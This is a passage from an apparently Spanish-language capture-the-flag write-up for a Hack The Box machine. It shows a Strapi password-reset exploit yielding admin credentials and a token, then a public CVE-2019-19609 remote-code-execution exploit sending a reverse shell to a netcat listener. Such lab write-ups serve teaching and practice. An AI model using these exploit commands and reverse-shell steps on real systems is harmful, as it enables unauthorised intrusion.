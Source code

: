 Asi que busco otro exploit funcional.

Encuentro un POC en github que tiene buena pinta

   - [CVE-2019-19609 Exploit](https://github.com/diego-tella/CVE-2019-19609-EXPLOIT){:target="\_blank"}{:rel="noopener nofollow"}

Descargo el exploit y lo pruebo:

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $ python3 exploit.py 
usage: exploit.py [-h] -d DOMAIN -jwt JWTOKEN -l LHOST -p PORT
exploit.py: error: the following arguments are required: -d/--domain, -jwt/--jwtoken, -l/--lhost, -p/--port
```
Se nos piden varios argumentos, entre los cuales está el `jwt`.

Para conseguir este, podemos ejecutar el exploit anterior para conseguirlo.

Hagamos esto:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $ python3 Strapi-RCE-exploit.py http://api-prod.horizontall.htb
[+] Checking Strapi CMS Version running
[+] Seems like the exploit will work!!!
[+] Executing exploit


[+] Password reset was successfully
[+] Your email is: admin@horizontall.htb
[+] Your new credentials are: admin:SuperStrongPassword1
[+] Your authenticated JSON Web Token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NzQ5MTEzLCJleHAiOjE2NDczNDExMTN9.pG1hWSnRYY09YI3DHXUaiHEgpjrOkBuHtK8XoDuqY_o


$> Traceback (most recent call last):
  File "/home/z3r0byte/Strapi-RCE-exploit.py", line 74, in <module>
    terminal.cmdloop()
  File "/usr/lib/python3.9/cmd.py", line 126, in cmdloop
    line = input(self.prompt)
KeyboardInterrupt

┌─[✗]─[z3r0byte@z3r0byte]─[~]
└──╼ $ python3 exploit.py -d api-prod.horizontall.htb -jwt eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MywiaXNBZG1pbiI6dHJ1ZSwiaWF0IjoxNjQ0NzQ5MTEzLCJleHAiOjE2NDczNDExMTN9.pG1hWSnRYY09YI3DHXUaiHEgpjrOkBuHtK8XoDuqY_o  -l 10.10.14.45 -p 9001
[+] Exploit for Remote Code Execution for strapi-3.0.0-beta.17.7 and earlier (CVE-2019-19609)
[+] Remember to start listening to the port 9001 to get a reverse shell
[+] Sending payload... Check if you got shell
```
Y por el otro lado recibimos la shell

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $nc -lvnp 9001
Listening on 0.0.0.0 9001
Connection received on 10.10.11.105 42468
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Una vez en este punto, podremos ver la flag `user.txt` en la ruta `/home/developer/user.txt` (Muestro únicamente los 11 primeros carácteres):

